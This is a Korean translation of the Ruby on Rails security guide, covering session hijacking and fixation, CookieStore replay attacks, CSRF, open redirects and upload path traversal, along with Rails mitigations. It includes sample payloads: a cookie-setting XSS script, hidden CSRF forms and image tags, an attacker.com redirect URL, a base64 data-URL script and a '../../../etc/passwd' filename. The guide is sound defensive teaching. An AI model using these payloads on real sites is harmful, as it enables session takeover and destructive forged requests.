

1 들어가면서
웹 애플리케이션 프레임워크는 웹 애플리케이션을 손쉽게 개발할 수 있도록 만들어졌습니다. 그 중에서 보안을 비교적 유지하기 쉬운 프레임워크도 있습니다. 하지만 어떤 프레임워크가 다른 것들보다도 안전하다고 말하기 어렵기도 합니다. 올바르게 사용한다면, 대부분의 프레임워크는 어느 정도 안전한 웹 애플리케이션을 만들 수 있습니다. Ruby on Rails에는 이러한 문제가 큰 보안 문제를 발생시키지 않도록 편리한 헬퍼 메소드(SQL 인젝션을 위한 것 등)를 몇가지 제공하고 있습니다.
일반적으로 도입하는 것만으로 보안을 용이하게 도입할 수 있는 편리한 도구는 없습니다. 보안은 프레임워크를 사용하는 사람에게 의존합니다. 상황에 따라서는 개발방법 역시 보안에 영향을 미치는 경우도 있습니다. 보안은 웹 애플리케이션을 구성하는 여러 계층(서버측 저장소, 웹서버, 웹 애플리케이션 자신 등)에 의존합니다. 어느 한 계층에 문제가 있다면 다른 계층이 안전하다고 하더라도 전체의 보안 수준은 문제가 있는 계층의 수준으로 떨어지고 맙니다.
Gartner Group은 공격의 75%가 웹 애플리케이션 층에 대해서 이루어지고 있다고 보고했으며, 점검을 받은 300개의 웹사이트중 97%가 취약성을 가지고 있었다는 결과를 얻었습니다. 이것은 일반인이라도 이해하고 조작할 수 있을 정도로 웹 애플리케이션이 간단하여 비교적 공격이 쉽기 때문입니다.
웹 애플리케이션에 대한 공격에는 사용자 계정을 탈취, 접근 권한 확인을 우회, 비밀 데이터를 훔치기, 정당하지 않은 컨텐츠 접근 등의 다양한 방법이 존재합니다. 나아가 공격자가 돈벌기, 또는 기업 재산에 손을 대어, 기업의 이미지를 훼손하기 위한 목적으로 트로이 목마 프로그램이나 스팸 메일 자동 송신 프로그램을 설치할 수도 있습니다. 이러한 공격을 받기 쉬운 지점을 제거하여 공격을 예방하고, 영향을 최소화하려면 적들의 공격방법을 완전히 이해해둘 필요가 있습니다. 그렇지 않으면 알맞은 대책을 세울 수 없습니다.
안전한 웹 애플리케이션을 개발하기 위해서 필요한 것은 모든 계층을 최신 버전으로 유지할 것, 그리고 적을 알아 두는 것입니다. 최신 버전을 유지하라는 것은 보안 메일링 리스트를 구독하고, 보안 관련 블로그를 읽으며, 최신 프로그램을 사용하여 보안 체크하는 습관을 가지라는 의미입니다(추가자료를 참조해주세요). 필자는 이러한 것들을 손으로 직접 하고 있습니다만, 이것은 일부러 직접 하는 것으로 귀찮은 논리상의 보안 문제를 발견하기 위한 방법이 될 수 있기 때문입니다.
2 세션
세션은 무척 공격당하기 좋은 지점이기 때문에, 보안에 대해서 생각해보기에 좋은 시작 지점입니다.
2.1 세션이란?
HTTP는 상태를 유지하지 않는(Stateless) 프로토콜입니다. 세션은 이를 상태를 유지(Stateful)할 수 있게끔 해줍니다.
많은 애플리케이션에서는 어떤 사용자가 어떤 상태인지 추적할 필요가 있습니다. 쇼핑몰에서의 장바구니 기능이나, 현재 로그인해있는 사용자의 아이디 등이 이에 해당합니다. 세션이라는 개념이 없다면, 사용자를 식별, 인증 작업을 요청이 발생할때마다 해야할 것입니다. Rails는 사용자가 애플리케이션에 처음 접근했을 때에 자동적으로 세션을 생성합니다. 사용자가 이미 애플리케이션을 사용중이라면 기존의 세션을 가져옵니다.
일반적으로 세션을 구성하는 요소는 값이 들어있는 해시와 세션 id입니다. 세션 id는 32문자의 문자열로, 해시를 찾기 위해서 사용합니다. 클라이언트 브라우저에 전송되는 Cookie에는 항상 세션 id가 포함됩니다. 다른 관점에서 보자면, 브라우저는 클라이언트로부터 요청을 받을때마다 Cookie를 전송합니다. Rails에서는 세션 메소드를 사용해서 값을 읽고 쓸 수 있습니다.
session[:user_id] = @current_user.id User.find(session[:user_id])
2.2 세션 id
세션 id는 32바이트의 MD5해시값입니다.
세션 id는 임의의 문자열들의 해시값으로 구성되어 있습니다. 임의의 문자열은 현재 시각, 0과 1사이의 임의의 숫자, 루비 인터프리터의 프로세스 id(이 역시 임의의 숫자입니다)와 상수 문자열입니다. 현재 Rails 세션 id를 무차별 공격하는 것은 어렵습니다. 지금까지 MD5는 안전했습니다만, 이론적으로는 동일한 해시값을 가지는 다른 입력 텍스트를 생성하는 것이 가능합니다. 다만 지금 시점으로는 보안적으로 크게 영향을 주지 않습니다.
2.3 세션 탈취(Session Hijacking)
사용자의 세션 id가 노출되면, 공격자는 그 사용자인척하며 웹 애플리케이션을 사용할 수 있습니다.
많은 웹 애플리케이션에서는 어떤 식으로든 인증 시스템을 가지고 있습니다. 사용자가 사용자 이름과 비밀번호를 입력하면, 웹 애플리케이션에서는 그것을 확인하고 그에 대응하는 사용자 id를 세션 해시에 저장합니다. 그때부터 세션이 유효하게 됩니다. 요청이 발생할때마다, 웹 애플리케이션은 세션에 존재하는 사용자 id를 가지는 사용자를 가져옵니다. 그 때에 다시 인증을 할 필요는 없습니다. 세션은 cookie내의 세션 id를 통해서 식별할 수 있습니다.
이처럼 cookie는 웹 애플리케이션에서 일시적인 인증 기능을 제공합니다. 다른 사람의 cookie를 훔쳐올 수 있다면 그 사용자의 권한으로 웹 애플리케이션을 사용할 수 있게 됩니다. 이를 통해 심각한 문제가 발생할 가능성이 있습니다. 세션 탈취를 막기 위한 방법을 몇가지 소개합니다.
-
보안에 문제가 있는 네트워크에서는 cookie를 훔쳐볼 수 있습니다. 무선 인터넷은 바로 그 네트워크의 예시입니다. 접속되어 있는 클라이언트 모두의 트래픽을 훔쳐보는 것은 암호화되지 않은 무선 인터넷에서는 간단하게 이루어질 수 있습니다. 이는 웹 애플리케이션 개발자에게는 SSL에 의한 안전한 접속을 제공해야한다는 의미입니다. Rails 3.1이후로는 애플리케이션 설정을 통해 SSL 접속을 강제할 수 있습니다.
config.force_ssl = true
공용 컴퓨터에서 작업을 한 이후에 cookie를 제거하는 사용자는 거의 없습니다. 마지막 사용자가 웹 애플리케이션에서 로그아웃하는 것을 잊어버리고 자리를 뜨게 되면, 다음 사용자는 그 웹 애플리케이션을 그대로 쓸 수 있습니다. 사용자에게는 로그아웃 버튼을 반드시 제공해야 합니다. 그것도 눈에 잘 띄는것으로요.
크로스 사이트 스크립팅(XSS) 공격은 많은 경우에 사용자의 cookie를 손에 넣는 것이 목적입니다. XSS를 참고해주세요.
공격자가 자신이 모르는 cookie를 훔치는 대신 자신이 알고 있는 cookie의 세션 id를 고정시키는 공격 방법도 존재합니다. 자세한 설명은 이후에 설명할 세션 고정에 대한 설명을 참조해주세요.
대부분의 경우 공격자의 목적은 돈입니다. Symantec Global Internet Security Threat Report에 의하면 훔친 은행 계좌의 거래 가격은 사용가능한 자금에 따라 다릅니다만 대체로 $10부터 $1000 정도, 신용카드번호가 $0.40부터 $20 정도, 온라인 경매 사이트의 계정이 $1부터 $8 정도, 이메일의 비밀번호가 $4부터 $30 정도라고 합니다.
2.4 세션을 다룰 때의 가이드라인
세션을 다룰 때의 주의사항을 몇가지 소개합니다.
세션에는 큰 객체를 저장하지 않을 것. 그러한 큰 데이터는 서버쪽의 데이터베이스에 저장하고, 세션은 그 id만을 저장해주세요. 이렇게 하여 상태 유지에 대해서 고민할 필요를 없애고 세션 저장소의 용량이 부족한 경우도 피할 수 있습니다(세션 저장을 어디에 할지에 따라서 상황이 달라집니다만). 이 방법은 객체의 구조를 변경한 뒤에, 변경 전의 오래된 객체가 일부 사용자에 의해서 사용되고 있을 경우에 유용합니다. 세션이 서버 쪽에 저장되어 있으면 세선을 삭제하는 것은 간단합니다만, 세션이 클라이언트 쪽에 저장되어 있으면 그것을 제어하기가 쉽지 않습니다.
세션에는 중요한 데이터를 저장하지 않을 것. 사용자가 cookie를 제거하거나 브라우저를 닫게 되면 그 정보들은 소실되게 욉니다. 심지어 그 세션이 클라이언트 쪽에 저장되어 있으면 사용자가 그 데이터를 읽을 수도 있습니다.
2.5 세션 저장소
Rails에는 세션 해시를 저장하기 위한 방법이 여러가지 준비되어 있습니다. 그중 가장 중요한 것은 ActionDispatch::Session::CookieStore입니다.
Rails 2에서 CookieStore라는 새로운 기본 세션 저장소가 도입되었습니다. 서버는 그 cookie로부터 세션 해시를 읽어오기 때문에, 세션 id를 사용할 필요가 없어졌습니다. 이에 의해서 서버의 속도가 크게 향상됩니다만, 이 저장소에 대한 보안상의 논쟁은 꾸준히 계속되고 있으며 사용할 경우에는 이 저장소가 보안에 어떤 영향을 미치는지 충분히 숙고할 필요가 있습니다.
Cookie의 크기는 4 KB로 정해져 있습니다. 일반적으로 현재 사용자의 데이터베이스id를 세션에 저장하는 데에는 아무런 문제가 없습니다.
Cookie에 저장되어 있는 것은 일반 텍스트(실제로는 Base64로 인코딩되어 있습니다만, 암호화되어 있지는 않습니다)이므로, 세션에 저장되어 있는 정보는 마음만 먹는다면 클라이언트 쪽에서 바로 확인할 수 있습니다. 여기에서도 알 수 있듯, 어떤 비밀 정보도 cookie에 저장해서는 안됩니다. 서버 쪽에서는 세션이 변경되는 것을 막기 위해서 서버 상의 비밀키(
secrets.secret_token)를 사용하여 세션의 다이제스트를 계산하여, 그것을 cookie의 마지막에 추가합니다.
그러나 Rails 4부터 기본 저장소가 EncryptedCookieStore로 변경되었습니다.
EncryptedCookieStore를 사용하면 세션은 cookie에 저장되기 전에 암호화됩니다.
이는 사용자가 쿠키에 접근하고 변경하는 것을 막을 수 있습니다. 그러므로 세션은
좀 더 데이터를 저장하기 안전한 장소가 되었습니다. 암호화에는
config/secrets.yml에 저장되어 있는 secrets.secret_key_base를 사용합니다.
다시 말해, cookie 저장소의 (변경방지용) 보안은 이 서버상의 비밀키(또한 다이제스트 생성 알고리즘 -- 호환성을 위해서 기본으로 SHA1을 사용)에 걸려 있습니다. 따라서 비밀키를 쉬운 문자열(사전에서 가져온 단어나, 30글자 이하의 짧은 문자열)을 사용해서는 안됩니다.
secrets.secret_key_base 메소드는 수정을 막기 위해서 애플리케이션의 세션을 비밀키와 비교하기 위해서 키를 지정할 때에 사용합니다. 애플리케이션은 secrets.secret_key_base를 사용하고, config/secrets.yml 등에 저장된 키를 생성시에 임의로 초기화합니다.
development: secret_key_base: a75d... test: secret_key_base: 492f... production: secret_key_base: <%= ENV["SECRET_KEY_BASE"] %>
오래된 버전의 Rails에서는 CookieStore를 사용했습니다. 이는 EncryptedCookieStore에서 사용되는 secret_key_base가 아닌 secret_token을 사용합니다. 자세한 설명은 Rails 업그레이드 문서를 참조해주세요.
비밀키가 노출된 애플리케이션(소스가 공개되어 있는 애플리케이션 등)을 받았을 경우, 그대로 사용하지 말고 반드시 비밀키를 변경한 후에 사용해주세요.
2.6 CookieStore 세션에 대한 재전송 공격(Replay Attack)
CookieStore를 사용한다면 또다른 공격법인 '재전송 공격(replay attack)'에 대해서도 알아둘 필요가 있습니다.
이는 다음과 같이 동작합니다.
- 사용자가 돈을 받고, 얼마인지는 세션에 저장됩니다(물론 이것이 정말 안좋은 방식입니다만, 일단 설명을 위해서 사용합니다).
- 사용자가 그 돈으로 무언가를 구입합니다.
- 사용한 만큼 줄어든 금액이 세션에 저장됩니다.
- 여기에서 사용자가 장난을 쳐서, 처음 브라우저에 저장되어 있던 cookie를 그대로 복사하여 현재 브라우저의 cookie를 변경합니다.
- 사용자의 보유 금액이 구입 이전으로 돌아옵니다.
이 재전송 공격은 세션에 nonce(1회 뿐인 임의의 값)을 포함하는 것으로 예방할 수 있습니다. nonce가 유효한 것은 한번 뿐이며, 서버는 nonce가 유효한지 아닌지를 항상 확인할 필요가 있습니다. 여러 애플리케이션 서버(mongrels)로 구성된 경우에는 좀 더 복잡합니다. nonce를 데이터베이스에 저장하게 되면, 데이터베이스 사용을 줄이기 위해서 도입한 CookieStore를 사용하는 의미가 퇴색되게 됩니다.
결론부터 말하자면, 이러한 데이터는 세션이 아닌 데이터베이스에 저장하는 것이 최선입니다. 이러한 경우에는 금액을 데이터베이스에 저장하고, logged_in_user_id를 세션에 보관하세요.
2.7 세션 고정 공격
사용자의 세션 id를 훔치는 대신에 공격자가 의도적으로 세션 id를 알고 있는 것으로 고정시키는 방법이 있습니다. 이러한 방법을 세션 고정(session fixation)이라고 부릅니다.

이 공격에서는 브라우저 상에서 사용자가 세션 id를 공격자가 알고 있는 세션 id로 슬쩍 고정하고, 브라우저를 사용하는 사용자가 눈치채지 못하는 사이에 그 세션 id를 사용하도록 강제합니다. 이 방법을 사용하면 세션 id를 훔필 칠요도 없습니다. 방법은 다음과 같습니다.
- 공격자는 유효한 세션 id를 생성합니다. 웹 애플리케이션에서 로그인 페이지(다시 말해 세션 고정 공격의 대상 페이지)를 열고 응답에 포함된 cookie로부터 세션 id를 얻습니다(그림의 1과 2를 참조).
- 공격자는 세션을 유지시키기 위해서 웹 애플리케이션을 가끔 접속합니다.
- 여기서 공격자는 사용자의 브라우저에 그 세션 id를 강제로 설정합니다(그림의 3). 동일 도메인 원칙에 따라서, 외부 도메인으로부터 사용자의 cookie를 변경할 수 없는 것이 일반적이므로 공격자는 웹 서버의 도메인을 통하여 JavaScript를 사용자의 브라우저에 전송하여 이를 불러옵니다. 크로스 사이트 스크립팅(XSS)에 의해서 JavaScript 코드를 주입(Injection)에 성공하면 공격은 완료됩니다. 예:
<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";</script>. XSS와 주입 공격에 대해서도 나중에 설명합니다. - 공격자는 JavaScript가 포함된 페이지로 사용자를 유도합니다. 사용자가 브라우저를 열면 그 사용자의 세션 id가 공격자가 설정한 것으로 변경됩니다.
- 공격자가 강제한 세션 id로는 로그인이 되지 않은 상태이므로 웹 애플리케이션은 사용자에게 로그인을 요구합니다.
- 인증이 완료되면 표적 사용자와 공격자는 같은 세션을 공유한 상태가 됩니다. 이 세션은 유효하며, 표적 사용자는 공격당했다는 사실을 눈치챌 수 조차 없습니다.
2.8 세션 고정 공격 - 대책
세션 고정 공격은 딱 한 줄의 코드로 막을 수 있습니다.
가장 효과적인 방법은 로그인 직후에 오래된 세션을 버리고, 새로운 세션 id를 생성하는것입니다. 이거라면 공격자가 세션 id를 고정시킬 수 없게 됩니다. 이 방법은 세션 탈취에도 유효한 방법입니다. Rails에서는 다음과 같은 방법으로 새로운 세션을 생성할 수 있습니다.
reset_session
만약 RestfulAuthentication 플러그인을 사용하고 있다면 SessionControl#create 액션에 reset_session을 추가해주세요(2015년 8월 시점으로 해당 플러그인은 거의 쓰이지 않고 있습니다). 이 메소드를 실행할 때에 세션으로부터 모든 값이 삭제되므로, 새로운 세션에 그 값들을 넘겨야합니다.
그 이외에도 세션에 사용자의 고유 속성을 저장하고, 사용자로부터 요청을 받을 때마다 그것을 확인하여 매칭하지 않는 경우에 접근을 거부하는 방법도 존재합니다. 사용자 고유 속성으로 사용가능한 정보로는 IP 주소나 User Agent(=웹 브라우저의 이름)이 있습니다만, 후자는 완전히 사용자 고유의 것이라고 보기는 어렵습니다. IP주소를 저장해서 사용하고 싶은 경우, 인터넷 서비스 제공자(ISP)나 대기업으로부터의 프록시를 통한 접근이 사용되고 있는 경우가 있을 것이라는 점을 잊지 않아야 합니다. IP 주소는 세션을 사용하는 과정에서 바뀔 수 있으므로, IP 주소를 사용자 고유의 정보로 사용하려는 경우에는 사용자가 웹 애플리케이션에 접근할 수 없게 되어 유저의 사용에 제한이 생길 수 있습니다.
2.9 세션의 유효기간
세션을 무기한으로 설정하면, 공격당할 기회가 증가합니다(Cross-Site Request Forgery(SCRF), 세션 탈취, 세션 고정 등).
세션 id를 가지는 cookie의 타임스탬프에 유혀기간을 설정해두는 방법도 생각해볼 수 있습니다. 하지만 브라우저에 저장되어 있는 cookie를 사용자가 변경할 수 있다는 점은 바뀌지 않으므로, 역시 서버쪽에서 관리하는 것이 안전합니다. 데이터베이스 테이블을 사용해서 세션을 무효화시키는 예제를 봅시다. Session.sweep("20 minutes")을 호출하면, 20분 이상 사용되지 않은 세션을 무효화시킵니다.
class Session < ActiveRecord::Base
def self.sweep(time = 1.hour)
if time.is_a?(String)
time = time.split.inject { |count, unit| count.to_i.send(unit) }
end
delete_all "updated_at < '#{time.ago.to_s(:db)}'"
end
end
이 장에서는 세션을 유지하는 상황에서 발생할 수 있는 세션 고정 공격에 대해서 설명했습니다. 공격자가 5분마다 세션을 유지하면, 서버 측에서 세션을 무효화하려고 해도 세션을 영구적으로 유지시킬 수 있습니다. 이러한 경우의 간단한 대책으로는 세션 테이블에 created_at 컬럼을 추가하는 것입니다. 이를 통해서 기간이 오래된 세션을 삭제할 수 있습니다. 위에서의 sweep 메소드에서 아래와 같은 코드를 추가합니다.
delete_all "updated_at < '#{time.ago.to_s(:db)}' OR
created_at < '#{2.days.ago.to_s(:db)}'"
3 Cross-Site Request Forgery (CSRF)
이 공격 방법은 사용자에 의한 인증이 완료되었다고 생각되는 웹 애플리케이션의 페이지에 악의가 있는 코드나 링크를 포함하는 것입니다. 그 웹 애플리케이션에 대한 세션이 무효화되지 않닸다면, 공격자는 본래 허가되어 있지 않은 명령을 실행할 수 있습니다.

세션에서 많은 Rails 애플리케이션이 cookie 기반의 세션을 사용하고 있다고 설명했습니다. 이 때에 세션 id를 cookie에 저장하여 서버측에서 세션 해시를 유지하던가, 모든 세션 해시를 클라이언트(브라우저)에 저장합니다. 어느 경우에도 브라우저는 요청할 때마다 cookie를 자동적으로 서버에 전송합니다(그 서버에서 사용할 수 있는 cookie가 있는 경우). 여기에서 문제가 되는 것은 다른 도메인에 속해있는 사이트에서 요청이 있는 경우에도 브라우저가 cookie를 전송한다는 점입니다. 아래의 예제를 생각해봅시다.
- 밥(Bob)은 게시판을 읽다가 해커가 올린 어떤 글을 읽습니다. 그 글에는 함정이 있는 HTML 이미지가 포함되어 있습니다. 그 이미지가 실제로 사용하는 링크는 이미지가 아니라 Bob의 프로젝트 관리 애플리케이션을 대상으로 하는 명령입니다.
<img src="http://www.webapp.com/project/1/destroy">- 밥은 그 사이트에서 로그아웃을 하지 않아서 www.webapp.com에 대한 밥의 세션은 아직 유효한 상황입니다.
- 해커가 작성한 글이 브라우저에 표시되면, 브라우저는 이미지 태그를 찾습니다. 그리고 브라우저는 www.webapp.com로부터 그 수상한 이미지를 읽어오려고 시도합니다. 전에도 말했듯 이 때에 유효한 세션 id를 포함하는 cookie도 동시에 전송됩니다.
- www.webapp.com의 웹 애플리케이션은 요청에 대응하는 세션 해시에 포함되는 사용자 정보가 유효하다고 생각하고, 그 지시에 따라서 ID 1의 프로젝트를 삭제합니다. 그리고 브라우저는 결과 페이지를 표시하며 이미지를 불러오지 못했다고 알립니다.
- 이 상황에서 밥은 공격당했다는 것을 알 수 없습니다. 그리고 몇일 뒤에 프로젝트 No.1이 삭제 됬다는 점을 깨닫게 될겁니다.
여기서 중요한 것은 함정이 있는 이미지나 링크의 위치는 웹 애플리케이션의 도메인이 아니어도 상관 없다는 점입니다. 포럼, 블로그, 이메일, 어디든지 가능합니다.
CSRF는 CVE (Common Vulnerabilities and Exposures)에서는 거의 보고 되지 않습니다만(2006년에도 0.1%이하) 이가 중대한 위협임은 마찬가지입니다. 필자나 다른 보안 전문가에 의한 보안 관련 실적에 등장할 일은 거의 없습니다만, CSRF는 무척 중대한 보안 문제라는 점을 기억해주세요.
3.1 CSRF 대책
첫번째로 W3C가 요구하는 대로 GET과 POST를 적절히 사용하세요. 두번째로 GET 이외의 요청에 보안 토큰을 추가하여 CSRF로부터 애플리케이션을 지킬 수 있습니다.
HTTP 프로토콜은 2개의 기본적인 요청인 GET과 POST를 제공하고 있습니다(이외의 요청도 제정되어 있습니다만 대부분의 브라우저에서는 지원하지 않습니다). World Wide Web Consortium (W3C)은 HTTP의 GET과 POST중 어느것을 사용할 지에 대한 선택을 돕기 위한 체크리스트를 제공합니다.
다음과 같은 경우에는 GET를 사용할 것
- 주고 받는 내용이 기본적으로 질문과 응답일 경우(쿼리, 읽어오기, 검색 등의 안전한 동작)
다음과 같은 경우에는 POST를 사용할 것
- 주고 받는 내용이 기본적으로 명령인 경우, 또는
- 그에 의해서 리소스의 상태가 변하고 그것을 사용자가 알 수 있는 경우(서비스 신청 등), 또는
- 그에 의해서 미치는 영향을 사용자가 책임져야 하는 경우
웹 애플리케이션이 RESTful하다면 PATCH, PUT, DELETE 등의 메소드도 사용할 수 있을 것입니다. 그러나 현 시점의 브라우저는 대부분 이러한 메소드들을 지원하고 있지 않습니다. 확실하게 지원되고 있는 것은 GET과 POST 뿐입니다. Rails에서는 _method라는 값을 사용해서 이러한 메소드를 지원하고 있습니다.
POST 요청도 (의도에 반해서) 자동적으로 전송되는 경우가 있습니다. 예제를 하나 보자면, 이 경우 브라우저의 상태 표시창에 www.harmless.com라는 웹 사이트의 링크가 표시되어 있습니다. 그리고 이 링크에 함정이 있으며, POST 요청을 슬쩍 전송하는 세로운 폼을 동적으로 생성하도록 되어있습니다.
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
또는 공격자가 이 코드를 이미지의 onmouseover 이벤트 핸들러에 등록할 수도 있습니다.
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
<script> 태그를 사용해서 특정 URL에 크로스 사이트 리퀘스트를 생성하고 JSONP나 JavaScript 응답을 받는 등, 공격 방법은 무척 다양합니다. 이러한 응답을 공격자가 발견한 실행 가능한 코드가 되며, 이를 통해 데이터가 유출될 가능성이 있습니다. 이러한 데이터 유출을 방지하기 위해서는 다른 사이트의 <script> 태그를 무효화해야 합니다. 이를 통해 같은 도메인으로부터 XmlHttopRequest를 통해 생성된 Ajax 요청만이 응답을 받을 수 있습니다.
<script> 태그의 origin이 애플리케이션 자신인지 아니면 다른 악의있는 사이트로부터 온 것인지 구분할 방법은 없습니다. 그러므로 같은 origin으로부터 제공되는 스크립트라 할지라도 모든 <script>를 막습니다. 이러한 경우에는 Javascript를 제공하는 액션에서는 명시적으로 CSRF 보호를 스킵합니다.
이러한 종류의 위조 요청을 모두 막기 위해서는 필수 보안 토큰을 도입하면 됩니다. 이 토큰은 자신의 사이트만이 알고 있으며, 다른 사이트는 알 수 없습니다. 요청이 발생하면 서버는 이 보안 토큰을 확인합니다. 아래의 한줄로 애플리케이션의 컨트롤러에 추가할 수 있으며, Rails에서 생성된 애플리케이션에는 이미 이 코드가 기본으로 포함되어 있습니다.
protect_from_forgery with: :exception
이 코드가 있으면 Rails에서 생성된 모든 폼과 Ajax 요청에 보안 토큰이 포함됩니다. 보안 토큰이 일치하지 않는 경우에는 예외를 던집니다.
Rails는 jQuery와 이를 위한 겸손한 스크립트 어댑터를 포함하며, 이는 jQuery에서 발생하는 모든 비-GET Ajax 요청에 X-CSRF-Token라는 헤더를 추가하고 보안 토큰을 설정합니다. 이 헤더가 없으면 Rails는 해당 요청을 처리하지 않습니다. 다른 라이브러리를 사용하여 Ajax 요청을 생성하고 싶다면 애플리케이션 뷰에서 <%= csrf_meta_tags %>로 생성되는 <meta name='csrf-token' content='THE-TOKEN'>의 보안 토큰을 사용하세요.
영구적으로 cookie에 사용자 정보를 저장하는(예를 들어 cookies.permanent 등에) 것이 빈번히 이루어집니다. 이러한 경우 cookie는 삭제되지 않는다는 점을 주의해주세요. 그리고 이전에 말했던 CSRF의 보호 영역 바깥에서는 CSRF로부터 보호받을 수 없을 때가 있습니다. 어떤 이유가 있어서 이러한 정보를 세션 이외의 cookie 저장소를 사용하고 싶다면 Rails에 의한 보호를 받을 수 없으므로 개발자가 직접 보안 대책을 새워야 합니다.
rescue_from ActionController::InvalidAuthenticityToken do |exception| sign_out_user # 사용자의 cookie를 삭제하는 메소드의 예시 end
이 메소드는 ApplicationController에 위치시킬 수 있습니다. 그리고 GET이 아닌 요청에 CSRF 토큰이 없는 경우나 토큰이 유효하지 않은 경우에도 이 메소드가 호출됩니다.
주의해야할 점은 크로스 사이트 스크립팅(XSS) 취약성은 어떤 CSRF 보호도 우회한다는 점입니다. XSS 취약점이 존재하면 공격자가 웹 페이지의 어떤 요소에든 접근할 수 있게 됩니다. 그러므로 폼으로부터 CSRF 보안 토큰을 읽어와서 그 폼을 직접 전송할 수 있게 됩니다. 뒤에서 이야기할 XSS도 읽어주세요.
4 리다이렉션과 파일
다음 보안상의 취약점으로 검토하고 싶은 것은 웹 애플리케이션에서의 '리다이렉션과 파일'입니다.
4.1 리다이렉트
웹 애플리케이션에서의 리다이렉트는 크래킹 도구로서의 위험이 있음에도 불고하고 과소평가되는 경우가 많습니다. 공격자는 이를 이용해서 사용자를 위험한 사이트로 보내거나, 웹 사이트 자체에 함정을 설치할 수도 있습니다.
리다이렉트용 URL(의 일부)를 사용자가 받게 되면, 잠재적인 취약점이 될 수 있습니다. 가장 노골적인 공격방법으로는 사용자를 실제와 똑같은 가짜 사이트에 리다이렉션하는 것을 생각해볼 수 있습니다. 이것은 흔히 말하는 '피싱(phishing)'이나 '낚기' 등으로 불리는 공격 방법입니다. 구체적으로는 무해한척하는 링크를 포함한 메일로 사용자에게 전송하고 XSS를 사용해서 그 링크를 웹 애플리케이션에 주입하거나, 링크를 외부사이트로 전송하거나 합니다.그 링크는 그 웹 애플리케이션의 URL로 시작되므로 얼핏 보기에는 문제가 없어보입니다. 위험한 사이트로 연걸되는 URL은 리다이렉트 파라미터의 안에 숨겨져 있습니다(http://www.example.com/site/redirect?to= www.attacker.com). 여기에서는 오래된 액션을 표시합니다.
def legacy redirect_to(params.update(action:'main')) end
이 코드는 오래된 액션에 대한 접근이 존재하면 사용자를 'main' 액션으로 리다이렉트시킵니다. 이 코드의 본래 의도는 오래된 액션에 대한 URL로 넘어온 파라미터를 유지하고, 그것들을 main 액션으로 넘기는 것입니다. 하지만 이 URL에 호스트 키가 포함되어 있다면 공격자에게 악용될 우려가 발생합니다.
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.com
URL 마지막에 있는 호스트 키는 눈치채기 어려우며, 결과 사용자가 attacker.com 호스트로 리다이렉트 되고 맙니다. 단순한 대책으로는 오래된 액션에서 필요로 하지 않는 파라미터를 배제하는 방법이 있습니다(이를 화이트리스트 식 접근법이라고 하며, 원하지 않는 파라미터를 찾아서 제거하는것과 정 반대의 방식입니다). URL을 리다이렉트 하는 경우에는 화이트리스트 또는 정규식을 사용해주세요.
4.1.1 자기 완결형 XSS
데이터 프로토콜을 사용하는 것으로 Firefox와 Opera에 대한 다른 종류의 리다이렉션과 자기 완결형 XSS 실행할 수 있게 됩니다. 데이터 프로토콜은 그 내용을 브라우저에 직접 표시할 수 있습니다. 심지어, HTML, JavaScript나 이미지 등, 어떤것이든 포함할 수 있습니다.
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
이 예제에서는 Base64로 인코딩된 JavaScript를 사용하고 있습니다. 이 JavaScript는 단순히 메시지 박스만 표시합니다. 리다이렉션 URL 공격에서는 공격자가 이런 식으로 악의가 있는 코드를 포함한 URL에 리다이렉션을 합니다. 이 공격에 대한 대책으로는 리다이렉트될 URL(또는 그 일부)를 사용자가 만들 수 없도록 하는 것입니다.
4.2 파일 업로드
파일이 업로드될 때에 중요한 파일들을 덮어쓰지 않도록 주의해주세요. 또한 미디어 파일을 처리할 때에는 비동기로 처리하세요.
많은 Web 애플리케이션에서는, 사용자가 파일을 업로드 할 수 있도록 해줍니다. 사용자가 선택/입력할 수 있는 파일명(또는 그 일부)는 반드시 필터링해주세요. 공격자가 위험한 파일명을 악의적으로 사용해서 서버의 파일을 덮어쓰려고 시도할 가능성도 있습니다. 파일이 /var/www/uploads 폴더에 업로드되는 경우, 만약 파일명이 "../../../etc/passwd"라고 입력되어 있다면, 중요한 파일을 덮어쓸 수도 있습니다. 말할 필요도 없이 Ruby 인터프리터에 그러한 권한이 없다면 그러한 덮어쓰기는 실행되지 않습니다. 웹 서버, 데이터베이스 서버등의 프로그램은 비교적 적은 권한을 가지는 Unix 사용자로 실행되도록 하는 것이 일반적입니다.
그리고 또 한가지 주의할 점이 있습니다. 사용자가 입력한 파일명을 필터링할 때에 파일명으로부터 위험한 부분을 제거하려고 시도하지 말아주세요. 웹 애플리케이션이 파일로부터 "../"같은 문자열을 제거할 수 있다고 하더라도, 공격자가 "....//" 같이, 패턴을 역이용하는 공격을 사용하면 여전히 "../"라는 상대경로를 사용할 수 있게 됩니다. 가장 좋은 방법은 '화이트리스트'에 의한 접근법입니다. 이것은 파일명이 유효한지 아닌지(지정된 문자열만이 사용되어 있는지)를 확인하는 방법입니다. 이것은 '블랙리스트'와는 반대의 접근방식입니다. 이쪽은 사용이 허가되지 않은 문자열을 제거합니다. 파일 이름이 유효하지 않은 경우에는 업로드를 거부하거나, 유효하지 않은 문자들을 제거하지 말고 치환하세요. 여기에서는 attachment_fu plugin에서 파일 이름을 처리하는 예제를 보여줍니다.
def sanitize_filename(filename)
filename.strip.tap do |name|
# 메모: File.basename은 Unix 상에서 Windows 경로는 정상적으로 동작하지 않습니다.
# 절대 경로가 아닌, 파일명만을 얻어옴
name.sub! /\A.*(\\|\/)/, ''
# 최종적으로 영숫자를 언더스코어 또는 \.로 대체
name.gsub! /[^\w\.\-]/, '_'
end
end
